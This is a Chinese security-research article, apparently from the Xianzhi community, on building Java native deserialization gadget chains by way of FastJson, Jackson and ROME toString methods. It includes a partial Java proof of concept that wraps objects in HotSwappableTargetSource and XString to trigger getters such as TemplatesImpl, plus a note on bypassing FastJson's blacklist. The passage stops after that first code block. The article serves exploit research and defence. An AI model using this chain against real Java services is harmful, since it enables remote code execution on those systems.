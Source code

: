 

# 利用特殊反序列化组件攻击原生反序列化入口 - 先知社区

利用特殊反序列化组件攻击原生反序列化入口



## 前言

所谓特殊反序列化，就是指自实现了序列化/反序列化逻辑的组件，本文主要讨论以下三种

*   FastJson
*   Jackson（SpringBoot 原生环境自带）
*   ROME（其实并不是特殊反序列化组件，但因为它也经常出现在 toString 利用链中，故放到一起讨论）

本文所述攻击的本质是**将上述组件中的类拼接到反序列化利用利用链中，打的是 Serilizable 入口，而不是特殊反序列化入口**

篇幅有限，无法对上述组件进行详细介绍，请还没了解的读者自行查阅有关文章

## 攻击原理

**这些组件**在实现自己的序列化逻辑（获取对象 field 值）时，会使用**自身类**重写的**toString**方法

在**这些类**的 toString 方法中，会调用**目标类**（也就是放在这些类中的 Gadget 后半部分，例如 TemplatesImpl）的**getter 方法**以获取**目标类**对象中的 field 值

**目标类**`obj`放在**这些类**中

如 `jsonObject1.put("g",obj);` `ToStringBean toStringBean = new ToStringBean(obj.getClass(),obj);`

**这些类**包括：`FastJson的JSONObject类、Jackson的POJONode类，ROME的ToStringBean类`

**目标类**getter：`TemplatesImpl#getOutputProperties、LdapAttribute#getAttributeDefinition、JdbcRowsetImpl#getDatabaseMetaData`

值得一提的是，由于是原生反序列化中的攻击，所以要求利用链上的类都要实现 Serilizable 接口，因此无法使用 BCEL 那条链（仅特殊反序列化如 FastJson 可用）

## 利用链分析

### readObject()->任意类 toString()

#### HotSwappableTargetSource & XString

**依赖于 SpringAOP**

测试代码如下（以 JsonObject 为例）

```plain
public static void main(String[] args) throws Exception {        
        Object templatesimpl = null;
        JSONObject jsonObject = new JSONObject();
        jsonObject.put("g","m");
        JSONObject jsonObject1 = new JSONObject();
        jsonObject1.put("g",templatesimpl);

        HotSwappableTargetSource v1 = new HotSwappableTargetSource(jsonObject);
        HotSwappableTargetSource v2 = new HotSwappableTargetSource(new XString("x"));

        HashMap<Object,Object> hashMap = new HashMap<>();
        hashMap.put(v1,v1);
        hashMap.put(v2,v2);
        setValue(v1,"target",jsonObject1);

//      用于 Reference 包裹绕过 FastJSon 高版本 resolveClass 黑名单检查，from Y4tacker
/*        HashMap<Object,Object> hhhhashMap = new HashMap<>();
        hhhhashMap.put(tpl,hashMap);*/

        serialize(hashMap);
```